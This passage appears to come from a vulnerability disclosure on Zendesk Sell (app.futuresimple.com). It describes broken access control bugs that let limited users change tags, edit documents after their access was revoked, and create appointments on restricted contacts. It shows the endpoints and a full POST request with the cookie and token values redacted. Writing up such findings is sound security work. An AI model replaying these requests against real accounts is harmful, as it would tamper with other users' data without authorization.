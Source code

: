 
But we are  able to add/modify/remove the tags of other users that the we are not supposed to be authorised over. This could lead to  quite a chaotic situation as we can add tags on any unauthorised deal or even render a particular data set(contacts/leads/deals) tag less by removing the tags.


BUG2:
## Changing Documents on contacts after admin removes our access to contacts

In Zendesk an admin can invite a user to a limited access role through which the user can view/update/delete and convert their own contacts,leads and deals in their account.
The user can also add documents to his contacts etc.
As the admin has full authority over invited users , the admin can revoke the ownership of the contacts to the invited user. As a result of this the invited user is rendered unable to edit the documents attached to the contacts and the ownership is transferred to the admin.
But we identified a vulnerable endpoint through which we were still able to gain edit access on the documents attached with the contacts even after the admin has revoked our access.

- Editing documents on contacts
```http
PUT /apis/uploader/api/v2/uploads/<upload_id>.json 
```
So we were able to effect the integrity of the documents as we were able to edit the names of documents and even change their extensions.




### Bug 3: Privilege escalations leads to add/remove appointments on restricted contacts.

Since zendesk allows users to collaborate on various functionalities in the app. This was accomplished by various roles for performing different functions in the app. One role in the app was defined as *limitted permission user* which has access to limktted features in the app. The following user was *unable to create* the *contacts* nor could he add any appointments on them.

{{1}}

But we were able to find an api path with *broken access controls*  that lead the **limitted user** to create and remove appointments with the *contacts* eventhough this functionality was restricted from the *said role*.

Limitted user was successfully able to exploit this *api request* to create appointments with the contacts just by using their **contact id**.

```http
POST /apis/appointments/api/v1/appointments.json HTTP/1.1
Host: app.futuresimple.com
Connection: close
Content-Length: 255
x-interaction-id: 3c4eee5f-bda4-4581-bd8d-1e54aeb2ac01
Origin: https://app.futuresimple.com
x-parent-operation-id: 3c4eee5f-bda4-4581-bd8d-1e54aeb2ac01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
x-csrf-token-generated-at: 1597815645
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
x-csrf-token-signature: <VALUE>
Referer: https://app.futuresimple.com/crm/contacts/288149956
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie:<VALUE>

{"appointment":{"contact_id":"<contact id>","start_at":"2020-08-17T00:00:00.000Z","end_at":"2020-08-17T23:59:59.999Z","is_public":false,"send_updates":true,"name":"New Appointment on Sunda","location":"New York","description":"","all_day":true}
```